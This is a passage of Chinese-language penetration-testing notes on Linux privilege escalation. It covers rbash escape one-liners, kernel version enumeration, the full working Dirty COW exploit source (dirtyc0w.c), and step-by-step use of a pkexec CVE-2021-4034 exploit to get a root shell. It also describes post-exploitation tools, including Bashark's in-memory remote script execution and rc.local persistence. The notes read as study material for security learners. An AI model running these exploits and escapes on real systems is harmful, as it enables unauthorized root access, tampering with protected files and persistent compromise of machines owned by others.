   import requests
   ```

   

#### rbash绕过（获取更多非root权限）

rbash是受限制的bash，管理员可以使用rbash对普通用户的操作进行限制，绕过rbash（shell为`/bin/rbash`）可以获得更多的权限，但不能获得root权限。修改登录的shell命令为：

```bash
usermod -s /bin/rbash test
```

test是用户名

##### 绕过

很多命令都可以用来绕过，包括前面的awk、less、find、perl等等

###### vi绕过

将rbash改回来

1. 先`vi`进入交互界面
2. 输入`:set shell=/bin/bash`回车
3. 继续输入`:shell`再回车
4. 检验：查看`cd`等命令是否还受限制，注意，test用户的shell并没有改变，只不过临时获得了一个`/bin/bash`而已


###### sh、bash、dash绕过

这三个命令直接输入命令行可以直接获得对应的shell然后绕过


###### python绕过

```bash
python3 -c "import os;os.system('/bin/bash');"
```

###### awk绕过

```bash
awk 'BEGIN {system("/bin/bash")}'
```

###### find绕过

```bash
sudo find -exec "/bin/bash" \;
```


###### perl绕过

```bash
sudo perl -e 'exec "/bin/bash";'
```

###### more绕过

1. 要求有文件可以读取

   ```
   more 1.py
   ```

2. 输入`!'bash'`并回车即可

#### 拓展

GTFOBins是一个Unix二进制文件列表，可以用来绕过配置错误的系统中的本地安全限制。

该项目收集了Unix二进制文件的合法函数，这些函数可以被滥用来获得受限制的shell，提权或维持权限，传输文件，生成bind和reverse shell等。

https://gtfobins.github.io/


### 漏洞提权

获取内核版本查看该版本存在哪些漏洞然后去寻找漏洞的相关信息和exp

使用`uname -r`查看内核版本

## 漏洞提权

### 查看版本信息

不同系统版本可能存在不同的版本漏洞，直到目标系统的版本，就可以搜索该版本是否存在漏洞。

1. 查看系统发行版本

   ```bash
   cat /etc/issue
   cat /etc/os-release
   cat /etc/lsb-release
   ```

2. 查看系统架构

   ```bash
   uname -m
   ```

3. 查看内核版本信息

   ```bash
   uname -a
   ```

4. 搜索版本漏洞

   ```bash
   searchsploit ubuntu 2.6.0
   ```


linux的版本问题：

1. linux内核版本

   linux内核版本号由三个数字组成，即：A.B.C。其中A代表内核主版本号，只有发生重大变化时才会改变；B代表内核次版本号，偶数表示稳定版，奇数表示开发版；C代表内核修订版本号，用于轻微修改、安全补丁和错误修复等

2. linux发行版本

   linux发行版本是基于linux内核并添加了各种工具和库的版本，比如Ubuntu和Debian是基于Debian的发行版，而Centos和Fedora是基于RedHat的发行版，不同的发行版可能会使用不同的包管理工具和安装程序


### CVE-2016-5195（dirty cow，脏牛）内核提权

脏牛漏洞（Dirty COW，CVE-2016-5195）是一个存在于Linux内核中的漏洞，它已经存在了长达9年的时间。这个漏洞在2007年发布的Linux内核版本中就已经存在，直到2016年10月18日才被修复。

这个漏洞的本质是Linux内核在处理写时拷贝（Copy-on-Write）时存在条件竞争漏洞，导致可以破坏私有只读内存映射。一个低权限的本地用户能够利用此漏洞获取其他只读内存映射的写权限，有可能进一步导致提权漏洞。

这个漏洞影响了所有目前运行Linux系统的设备，包括但不限于运行Linux系统的服务器、Docker容器、手机、路由器和智能设备等。

#### exp

https://github.com/FireFart/dirtycow

https://github.com/gbonacini/CVE-2016-5195

#### 写时复制

COW（copy on write，写时复制）的核心思想就是如果有多个调用者同时请求相同资源，他们或获取相同资源，直到某个调用者试图修改资源内容时，系统才会真正复制一份专用副本给调用者。

当程序fork进程时，内核只为子进程创建虚拟空间结构，子进程与父进程共用一块物理内存，直到父进程或子进程中有改变段内容的操作才为子进程相应段分配物理空间。

写时复制的好处如下是：免除无效的内存复制，在使用时才想某内存页写入数据，这可以提高效率。

#### 适用版本

4.8.3>=linux内核>=2.6.22


#### 脏牛漏洞触发代码

[dirtycow.github.io/dirtyc0w.c at master · dirtycow/dirtycow.github.io · GitHub](https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c)

```c
/*
####################### dirtyc0w.c #######################
$ sudo -s
# echo this is not a test > foo
# chmod 0404 foo
$ ls -lah foo
-r-----r-- 1 root root 19 Oct 20 15:23 foo
$ cat foo
this is not a test
$ gcc -pthread dirtyc0w.c -o dirtyc0w
$ ./dirtyc0w foo m00000000000000000
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo
m00000000000000000
####################### dirtyc0w.c #######################
*/
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>

void *map;
int f;
struct stat st;
char *name;
 
void *madviseThread(void *arg)
{
  char *str;
  str=(char*)arg;
  int i,c=0;
  for(i=0;i<100000000;i++)
  {
/*
You have to race madvise(MADV_DONTNEED) :: https://access.redhat.com/security/vulnerabilities/2706661
> This is achieved by racing the madvise(MADV_DONTNEED) system call
> while having the page of the executable mmapped in memory.
*/
    c+=madvise(map,100,MADV_DONTNEED);
  }
  printf("madvise %d\n\n",c);
}
 
void *procselfmemThread(void *arg)
{
  char *str;
  str=(char*)arg;
/*
You have to write to /proc/self/mem :: https://bugzilla.redhat.com/show_bug.cgi?id=1384344#c16
>  The in the wild exploit we are aware of doesn't work on Red Hat
>  Enterprise Linux 5 and 6 out of the box because on one side of
>  the race it writes to /proc/self/mem, but /proc/self/mem is not
>  writable on Red Hat Enterprise Linux 5 and 6.
*/
  int f=open("/proc/self/mem",O_RDWR);
  int i,c=0;
  for(i=0;i<100000000;i++) {
/*
You have to reset the file pointer to the memory position.
*/
    lseek(f,(uintptr_t) map,SEEK_SET);
    c+=write(f,str,strlen(str));
  }
  printf("procselfmem %d\n\n", c);
}
 
 
int main(int argc,char *argv[])
{
/*
You have to pass two arguments. File and Contents.
*/
  if (argc<3) {
  (void)fprintf(stderr, "%s\n",
      "usage: dirtyc0w target_file new_content");
  return 1; }
  pthread_t pth1,pth2;
/*
不得不以只读模式打开文件.
*/
  f=open(argv[1],O_RDONLY);
  fstat(f,&st);
  name=argv[1];
/*
You have to use MAP_PRIVATE for copy-on-write mapping.
> Create a private copy-on-write mapping.  Updates to the
> mapping are not visible to other processes mapping the same
> file, and are not carried through to the underlying file.  It
> is unspecified whether changes made to the file after the
> mmap() call are visible in the mapped region.
*/
/*
You have to open with PROT_READ.
*/
  map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
  printf("mmap %zx\n\n",(uintptr_t) map);
/*
You have to do it on two threads.
*/
  pthread_create(&pth1,NULL,madviseThread,argv[1]);
  pthread_create(&pth2,NULL,procselfmemThread,argv[2]);
/*
You have to wait for the threads to finish.
*/
  pthread_join(pth1,NULL);
  pthread_join(pth2,NULL);
  return 0;
}
```


### CVE-2016-6662（todo:失败，所以文档没写完）

该漏洞允许本地用户通过将 `general_log_file` 设置为 `my.cnf` 配置来创建任意配置并绕过某些保护机制。注意：这可以被利用来通过设置 `malloc_lib` 来以 root 权限执行任意代码。

#### 版本

CVE-2016-6662 是一个严重的安全漏洞，它影响了 Oracle MySQL 5.5.52、5.6.x 至 5.6.33 和 5.7.x 至 5.7.15；MariaDB 5.5.51 前，10.0.x 至 10.0.27 前和 10.1.x 至 10.1.17 前；以及 Percona Server 5.5.51-38.1 前，5.6.x 至 5.6.32-78.0 前和 5.7.x 至 5.7.14-7 前的版本

#### 

1. 下载源码https://legalhackers.com/exploits/mysql_hookandroot_lib.c

2. 编译

   ```bash
   gcc -Wall -fPIC -shared -o mysql_hookandroot_lib.c -ldl
   ```

3. 修改mysql配置文件

   ```bash
   
   ```

   


### CVE-2016-8655

CVE-2016-8655 是一个 Linux 内核中的漏洞，它存在于`net/packet/af_packet.c`文件中。该漏洞是一个竞争条件，它允许本地用户通过利用 CAP_NET_RAW 权限来更改套接字版本，从而获得权限或导致拒绝服务（使用后释放），与packet_set_ring和packet_setsockopt 函数相关。


### CVE-2017-16695


### CVE-2018-14665

CVE-2018-14665 是一个 Xorg X 服务器中的漏洞。该漏洞是由于在启动 Xorg 时对 -modulepath 和 -logfile 选项进行了错误的权限检查。X 服务器允许具有通过物理控制台登录系统能力的非特权用户提升其权限并以 root 权限运行任意代码。

该漏洞影响 xorg-x11-server 版本 1.20.3 之前的版本。建议您升级到最新版本的 xorg-x11-server 以修复此漏洞。

### CVE-2021-4034

CVE-2021-4034 是一个本地权限提升漏洞。它被发现存在于 polkit 的 pkexec 实用程序中。pkexec 应用程序是一个 setuid 工具，旨在**允许非特权用户根据预定义的策略以特权用户身份**运行命令。由于处理进程参数向量不正确，pkexec 中的漏洞允许非特权本地攻击者升级权限，绕过任何身份验证和策略。攻击者可以利用这个漏洞通过精心构造环境变量来诱导 pkexec 执行任意代码。当攻击成功执行时，可以导致本地权限提升，使非特权用户获得目标机器上的管理权限。

通过更新polkit可以修补该漏洞。


#### 利用条件

利用条件包括：

- 攻击者需要一个本地用户权限
- 恶意文件需要可执行

具体步骤为：

1. 先下载项目（[GitHub - berdav/CVE-2021-4034: CVE-2021-4034 1day](https://github.com/berdav/CVE-2021-4034)）

2. 进入项目目录，并编译：

   ```bash
   make
   ```

3. 执行编译好的文件，注意当前环境为本地非特权用户

   ```bash
   ./cve-2021-4034
   ```

   然后会发现进入了root shell，但实际上目前处于登录状态的仍只有那个本地非特权用户

   

上面的github项目同样可以测试系统是否容易受到攻击，步骤如下：

1. 编译项目目录下的dry-run

   ```bash
   make dry-run
   ```

2. 然后执行

   ```bash
   dry-run/dry-run-cve-2021-4034
   ```

3. 如果输出`root`代表系统易受到漏洞攻击，否则将会打印错误并退出

   

## linux检测脚本

### LinEnum

[GitHub - rebootuser/LinEnum: Scripted Local Linux Enumeration & Privilege Escalation Checks](https://github.com/rebootuser/LinEnum)

LinEnum会将所有关键的信息都枚举出来，然后把文件原样复制出来，这就导致最终报告的文件非常多

#### 参数

| 参数 | 含义                                                         |
| ---- | ------------------------------------------------------------ |
| -e   | 要求用户输入一个输出位置。如果该位置不存在，则将创建该位置。 |
| -r   | 要求用户输入报表名称。报告(.txt文件)将被保存到当前工作目录。 |
| -t   | 执行彻底(缓慢)的测试。如果没有这个开关，将执行默认的“快速”扫描。 |
| -s   | 使用当前用户提供的密码来检查sudo权限-注意这是不安全的，仅用于CTF使用 |
| -k   | 一个可选开关，用户可以在许多文件中搜索单个关键字(如下所示)。 |

#### 执行

```bash
./LinEnum.sh -e report -s 
```


### Linux Exploit Suggester 2

[GitHub - jondonas/linux-exploit-suggester-2: Next-Generation Linux Kernel Exploit Suggester](https://github.com/jondonas/linux-exploit-suggester-2)

使用起来非常简单，用于检测linux上可以利用的漏洞，比如说脏牛漏洞，然后告诉你可以在哪里找到exp，也可以直接下载，就是有点慢

#### 参数

| 参数 | 说明                              |
| ---- | --------------------------------- |
| -d   | 提供exp下载菜单，选择后会进行下载 |
| -k   | 手动输入内核/操作系统发布版本     |


#### 运行

```bash
/linux-exploit-suggester-2.pl -d
```

### Bashark

[GitHub - redcode-labs/Bashark: Bash post exploitation toolkit](https://github.com/redcode-labs/Bashark)

Bashark在安全审计的后开发阶段帮助渗透测试人员和安全研究人员。

进入bashark终端

```bash
source bashark.sh
```

bashark的命令分为两类，需要root和不需要root的，有没有root取决于进入bashark时的身份


无需root的命令：

| 命令        | 说明                             |
| ----------- | -------------------------------- |
| **getapp**  | 枚举已安装的应用程序             |
| **getconf** | 枚举配置文件                     |
| **getperm** | 查找拥有特殊权限的文件           |
| **isvm**    | 当前主机是否是虚拟机             |
| mex         | 指定文件路径，使文件具有可执行权 |
| memexec     | 下载并在内存中执行远程bash脚本   |

需要root的命令

| 命令        | 说明                                                         |
| ----------- | ------------------------------------------------------------ |
| **persist** | 在后面指定命令即可，每次重启主机都会执行一次指定的命令，指定的命令被添加到`/etc/rc.local` |
| rootshell   | 生成一个获取root shell的可执行文件                           |

需要注意的是在kali 2022上很多都是用不了的，其他的命令可以键入help查看，然后单个命令怎么使用可以通过`-h`查看

#### getperm

格式：`getperm [options] directory`

注意提供的options要分开写，比如

```
getperm -u -g /
```

分别查找根目录下拥有SUID、SGID权限的文件


| 参数 | 说明                               |
| ---- | ---------------------------------- |
| -g   | 具有SGID权限                       |
| -u   | 具有SUID权限                       |
| -sb  | 具有sticky位                       |
| -c   | 在最常见的地方搜索SGID和SUID       |
| -wd  | 查找任何人都可以写入的目录         |
| -ed  | 查找任何人都有可执行的目录         |
| -wed | 查找任何人都有可执行、可写入的目录 |
| -wf  | 查找任何人都可以写入的文件         |
| -nf  | 查找没有拥有者的文件               |

设置了sticky位的目录禁止随意删除其他用户的数据，只有目录内文件的所有者或者root才可以删除，使用chmod可以设置该权限（`chmod u+t dir`），只有目录可以设置该权限

### BeRoot

https://github.com/AlessandroZ/BeRoot

BeRoot项目是一个后渗透利用工具，检查常见的错误配置，以找到一种方法来提权。BeRoot分为linux版和windows版，这里以linux版为例


#### 运行


```bash
python beroot.py
```

提供`-p`参数以交互式地输入密码，这可以获得更多的信息

```bash
python beroot.py -p
```


#### 报错ValueError: user = sudo_list[sudo_list.index('User '):].split(' ')[1] substring not found

找到sudo_list.py文件将

```python
user = sudo_list[sudo_list.index('User '):].split(' ')[1]
```

修改为

```python
user = sudo_list[sudo_list.index('用户 '):].split(' ')[1]
```

即可


### linux-kernel-exploits

https://github.com/SecWiki/linux-kernel-exploits

这是一个exp合集，包含了不同年份的和linux内核有关的CVE漏洞，每个CVE下面都有对应的程序可用于exploit，但是目前最新只有2018年的

### linux-smart-enumeration

https://github.com/diego-treitos/linux-smart-enumeration

下载脚本并赋予权限：

```
wget "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh" -O lse.sh;chmod 700 lse.sh
```

#### 参数

| 参数      | 说明                                               |
| --------- | -------------------------------------------------- |
| -l0/l1/l2 | 信息的详细等级，l2最详细                           |
| -s        | 进行部分测试，同时存在的部分测试的选项之间逗号隔开 |

参数`-s`的选项：

```
usr:与用户相关的测试。

sud:sudo相关测试

fst:文件系统相关测试

sys:系统相关测试

sec: 安全措施相关测试

ret: 与(cron, timers) 相关测试

net: 网络相关测试

srv: 服务相关测试

pro: 进程相关测试

sof: 软件相关测试.

ctn: 容器 (docker, lxc)相关测试.

cve: CVE 相关测试.
```

其他命令`-h`查看

#### 运行

```bash
./lse.sh -s usr,sud
```


```bash
./lse.sh -l1
```


